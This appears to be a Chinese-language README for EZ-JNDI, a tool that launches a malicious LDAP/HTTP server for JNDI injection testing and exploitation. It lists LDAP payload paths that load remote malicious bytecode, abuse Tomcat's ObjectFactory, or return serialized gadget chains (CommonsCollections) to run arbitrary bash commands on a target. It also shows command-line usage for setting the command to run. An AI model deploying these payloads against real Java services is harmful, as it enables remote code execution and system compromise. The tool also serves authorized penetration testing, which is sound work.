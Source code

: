 # EZ-JNDI
一键启动JNDI测试/利用环境，目录中的`ezjndi1.0.jar`是已经编译好的版本。

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
ldap://{IP}:{Port}/RS/{gadget_name} --> LDAP服务直接返回序列化数据，并使用指定Gadget执行命令

可用Gadget：cck1 ｜ todo...
```

执行命令使用的方式如下（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "{command}"});
new ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

使用截图：
![img.png](img/img.png)

![img.png](img/img2.png)

![img.png](img/img3.png)

TODO:
- 增加gadget
- Windows环境下利用cmd执行命令（`cmd /c {command}`）
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```
另外，编译的时候请跳过测单元测试：
```text
maven clean package -Dmaven.skip.test=true
```